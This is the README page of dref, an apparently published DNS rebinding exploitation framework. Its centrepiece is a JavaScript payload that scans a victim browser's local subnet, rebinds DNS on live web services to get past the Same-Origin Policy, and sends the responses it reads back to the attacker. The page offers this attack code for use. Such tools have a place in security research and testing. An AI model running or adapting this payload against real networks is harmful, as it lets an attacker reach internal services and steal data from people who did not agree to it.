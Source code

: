 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/serain/dref/master/docs/img/logo.png?token=AH5HJaNTqfEIQnbVSX_QaB2Br4R5we5Bks5bOpK4wA%3D%3D">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <a href="https://travis-ci.org/serain/netmap.js.svg?branch=master" style="text-decoration: none">
      <img src="https://travis-ci.org/serain/netmap.js.svg?branch=master">
    </a>
    <a href="https://codecov.io/gh/serain/netmap.js">
      <img src="https://codecov.io/gh/serain/netmap.js/branch/master/graph/badge.svg">
    </a>
    <a href="https://greenkeeper.io/">
      <img src="https://badges.greenkeeper.io/serain/netmap.js.svg">
    </a>
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.png">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/serain/dref/master/docs/img/diagram.png?token=AH5HJYLZRcWi_aEJCVh8iU4efEQ4tkryks5bOpMMwA%3D%3D">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [default payloads](https://github.com/serain/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/serain/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet('24')

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin Policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, (code, headers, body) => {
      // ... and exfiltrate it
      session.log({code: code, headers: headers, body: body})
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/serain/dref/master/docs/img/exfiltrated.png?token=AH5HJUF5NJX7nlIHFdmlXn74LOZzzbjmks5bOuukwA%3D%3D">
  <img align="right" src="https://raw.githubusercontent.com/serain/dref/master/docs/img/arrow-bottom-right.png?token=AH5HJT0ROw-5c-TlZ7ZvUy0NaANoajbWks5bOuxuwA%3D%3D">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started.

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
